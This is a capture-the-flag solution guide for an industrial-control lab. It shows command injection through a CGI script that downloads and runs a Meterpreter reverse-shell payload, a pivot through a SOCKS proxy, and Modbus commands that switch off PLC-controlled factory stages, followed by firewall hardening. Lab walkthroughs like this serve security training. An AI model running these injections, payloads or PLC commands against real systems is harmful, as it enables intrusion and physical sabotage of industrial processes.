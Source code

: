 # Made in America

_Solution Guide_

## Overview

This is an infinity-style challenge—a random solution is generated during challenge deployment. This solution guide covers the walk-through and is organized by submission question.

The status of questions 2 and 3 can be checked by visiting `https://challenge.us` from a gamespace resource.  It may take up to 60 seconds to receive the grading results. 

## Question 1

_View the HMI web console. What is the name of the ninth stage? (E.g., the name of the first stage is Circuit Board Printing)_

Hack your way into the trusted network and view the HMI web console at `http://10.3.3.7:80/scada`.

1. Scan the HMI Viewer with a basic nmap scan.
`nmap 10.5.5.3`

![Image 1](./img/Step1.png)

2. Notice TCP/80 is open. Browse to http://10.5.5.3.

![Image 2](./img/Step2.png)

3. Feel free to inspect the HTML. There are no important links or references. We must try to discover if there are any in a different manner. Launch dirbuster.

4. Set the Target URL to `http://10.5.5.3:80`, set the File With List Of Dirs/Files to `/usr/share/wordlists/dirbuster/directory-list-1.0.txt`, and click 'Start'.

![Image 3](./img/Step3.png)

5. In under a minute, you should be able to click "Results - List View: Dirs: 1 Files:0" as dirbuster received a 403 on the /cgi-bin/ directory.

![Image 4](./img/Step5.png)

6. Researching /cgi-bin should indicate that commonly .cgi files reside here. We will use dirbuster again to search for .cgi files. Click 'Stop' and 'Back'. Using the same wordlist as before, change the File Extension to .cgi, set the Dir To Start With to /cgi-bin/, unselect Brute Force Dirs, and click Start.

![Image 5](./img/Step6.png)

7. Within 2 minutes, you should see "Results - List View: Dirs: 0 Files: 1." In that tab, you should notice /cgi-bin/remote.cgi.

![Image 6](./img/Step7.png)

8. Browse to `http://10.5.5.3/cgi-bin/remote.cgi` and notice that nothing is returned. Researching .cgi files and the name of remote should lead competitors to attempt a remote command injection.

![Image 7](./img/Step8.png)

9. Browse to `http://10.5.5.3/cgi-bin/remote.cgi?whoami` and notice that the returned output is  `nobody`. We are able to perform command injection!

![Image 8](./img/Step9.png)

10. We will attempt to have the HMI-viewer download a reverse TCP Meterpreter payload as an .elf and execute the binary. On Kali, ensure you know your Kali's IPv4 address. Run the command `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=YOURKALIIP LPORT=4444 -f elf > shell.elf`.

![Image 9](./img/Step10.png)

11. We will now serve up a web server to have the HMI-Viewer download shell.elf. Run the command `sudo python3 -m http.server 80`.

![Image 10](./img/Step11.png)

12. Before we execute shell.elf on HMI-Viewer, we must prepare a TCP handler. Launch `msfconsole`, `use exploit/multi/handler`, `set payload linux/x64/meterpreter/reverse_tcp`, `set LPORT 4444`, `set LHOST YOURKALIIP`, and `run`.

![Image 11](./img/Step12.png)

13. Competitors are able to have rwx permission on the /tmp directory of the HMI-Viewer. Enter this string in your browser to download shell.elf in the HMI-Viewer's /tmp directory: `http://10.5.5.3/cgi-bin/remote.cgi?wget+YOURKALIIP/shell.elf+-O+/tmp/shell.elf`

![Image 12](./img/Step13.png)

14. Next, we must change the permissions to shell.elf. Enter the following string in your browser to change shell.elf's permissions: `http://10.5.5.3/cgi-bin/remote.cgi?chmod+777+/tmp/shell.elf`

![Image 13](./img/Step14.png)

15. Finally, we must execute shell.elf on HMI-Viewer. Enter the following string in your browser to execute it: `http://10.5.5.3/cgi-bin/remote.cgi?/tmp/shell.elf`

![Image 14](./img/Step15.png)

16. You should now see an active Meterpreter session on your handler. If not, please re-check your steps.

![Image 15](./img/Step16.png)

17. In Meterpreter, the goal is to pivot through HMI-Viewer. Send the current session to the background with the command `bg`. Run the following commands in Metasploit to setup a SOCKS4a Proxy through HMI-Viewer: `route add 10.3.3.0/24 1` (as long as your session 1 is still active, otherwise replace with your current Meterpreter session number), `use auxiliary/server/socks_proxy`, `set VERSION 4a`, and `run`.

![Image 16](./img/Step17.png)

18. We must set up Firefox to use this proxy. Open Firefox and find the Proxy Connection Settings, select Manual Proxy Configuration, leave HTTP and HTTPS Proxy blank, set SOCKS Host to 127.0.0.1, Port 1080, and ensure SOCKS v4 is selected (NOT SOCKS v5).

![Image 17](./img/Step18.png)

19. We can now browse to http://10.3.3.7/scada and login with the credentials given in the lab guide.

![Image 18](./img/Step20.png)

20. You should now be able to see the 10 stages of the laptop factory. Now you will be able to answer question 1. Congrats!

## Question 2

_What is Token 2 provided from https://challenge.us?_

Turn off the PLC power for Stages 2 through 10. Check the status of this task at `https://challenge.us` from a gamespace resource.

1. To turn off the PLC values, we must first be able to reach the PLC on TCP/502 (modbus). In Metasploit, run the command `route add 10.3.2.0 255.255.255.0 1`.

![Image 19](./img/Q2Step1.png)

2. We must install mbpoll to poll and alter PLC values. Open a new terminal window and run the command `sudo apt install mbpoll`. Ensure you enter `y` to install.

![Image 20](./img/Q2Step2.png)

3. On your Kali machine, you must route traffic through this new SOCKS4a proxy. Edit the final line in `/etc/proxychains4.conf` to state socks4 127.0.0.1 1080.

![Image 20](./img/Q2Step3.png)

4. We will now use our previous socks4a proxy (with proxychains) to run mbpoll though our established pivot. In a new tab, run the command `proxychains mbpoll -r 1 -c 15 -1 10.3.2.5` to view the number of Completed for each stage (11 - 15 will be blank, of course). The mbpoll main page informs us that Discrete output (coil) data types require `-t 0` to be added as well. The following command will turn off Stage 2 `proxychains mbpoll -r 2 -t 0 10.3.2.5 0`. Replace the 2 with 3 to turn off Stage 3. And so on... You can also use a for loop to quickly turn all nine stages off.

5. Browse to http://10.3.3.7/scada and verify that Stages 2 through 10 are shut down and turned off.

![Image 21](./img/Q2Step5.png)

6. Browse to http://challenge.us and allow the grading check to verify you completed the task. It may take up to 60 seconds for the grading check to recognize the task has been completed. Feel free to run the grading check after a minute has passed to confirm that you have completed the task. You are now able to answer question 2. Congrats! 
 
## Question 3

_What is Token 3 provided from https://challenge.us?_

Restore all PLC power and ensure that no unauthorized devices can manipulate PLC values. Only the HMI Server is authorized to do this! Do not lock the HMI server out. Check the status of this task at `https://challenge.us` from a gamespace resource.

1. Before we lock ourselves out, because HMI-Viewer is NOT authorized to reach the PLC, we must set the PLC values back in their original (on) state. The command `proxychains mbpoll -r 2 -t 0 10.3.2.5 1` will turn Stage 2 back on. `proxychains mbpoll -r 3 -t 0 10.3.2.5 1` will turn on Stage 3, and so on and so forth. Turn on Stages 2 through 10. You can also use a for loop to quickly turn all nine stages on.

![Image 22](./img/Q3Step1.1.png)
![Image 23](./img/Q3Step1.2.png)

2. Browse to http://10.3.3.7/scada and verify that Stages 2 through 10 are turned on.

3. SSH into the router with the command `ssh user@10.5.5.1` to ensure only the HMI Server can reach the PLC over TCP/502 (modbus). The password for the `user` account was given to you alongside Token 2, in question 2.

![Image 24](./img/Q3Step3.png)

4. In VyOS, run the following commands to ensure only the HMI Server can reach the PLC over TCP/502: `conf`, `show firewall`, `del firewall name viewer-to-hmi rule 2`, `set firewall name plc-to-hmi description 'plc-net to hmi'`, `set firewall name plc-to-hmi default-action drop`, `set firewall name plc-to-hmi rule 1 description 'allow hmi to plc'`, `set firewall name plc-to-hmi rule 1 source address 10.3.3.7`, `set firewall name plc-to-hmi rule 1 destination address 10.3.2.5`, `set firewall name plc-to-hmi rule 1 destination port 502`, `set firewall name plc-to-hmi rule 1 protocol tcp`, `set interface ethernet eth1 firewall in name plc-to-hmi`, `set firewall name plc-to-hmi rule 1 action accept`, `commit`, `save`, and `exit`.

5. Browse to http://challenge.us and allow the grading check to verify you completed the task. It may take up to 60 seconds for the grading check to recognize the task has been complete. Feel free to run the grading check after a minute has passed to confirm that you have completed the task. You are now able to answer question 3. Congrats!
